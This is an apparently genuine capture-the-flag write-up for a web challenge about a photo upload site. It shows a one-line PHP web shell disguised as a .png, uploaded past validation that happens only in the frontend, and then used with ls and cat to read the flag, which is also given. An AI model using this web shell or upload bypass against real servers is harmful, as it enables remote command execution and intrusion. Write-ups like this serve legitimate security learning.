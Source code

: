 # Loading picture.php

> Category: Web

> Points: 130

## Challenge Description

> translated: To teach himself how to draw pretty, Mario redraws nature photos in his free time. Unfortunately, he doesn't have many ideas where he could find interesting photos, so he had created a website which allows other people to upload photos that he can use. Mario was very careful, so he limited the file size which can be uploaded so that malicious people couldn't upload something that isn't a photo.

> native: Kako bi naučio lijepo crtati, Mario u slobodno vrijeme precrtava slike prirode. Nažalost, nema puno ideja gdje bi našao zanimljive slike, ali je zato napravio stranicu koja mu omogućuje da drugi ljudi učitavaju slike koje on onda može iskoristiti. Mario je vrlo oprezan, pa je zato ograničio veličinu datoteka koje se mogu učitati kako zlonamjerni ljudi ne bi mogli učitati nešto što nije slika.

## Analysis

To anyone with a little bit of experience this will sound like a PHP shell task, so let's try to go that route.

Loading the website we get a simple upload form.

![decrypted](website.png)

We will craft our own fake .png file. We can do that by creating a .png file and putting this code inside of it.

```php
<?php echo shell_exec($_GET['cmd'])?>
```

We will send the request in Postman since the validation of files is done in frontend, and afterwards we will just use standard Linux "ls" and "cat" commands to get around and print out the flag file.

![decrypted](solution.png)

## FLAG

> CTF2021[750396018838]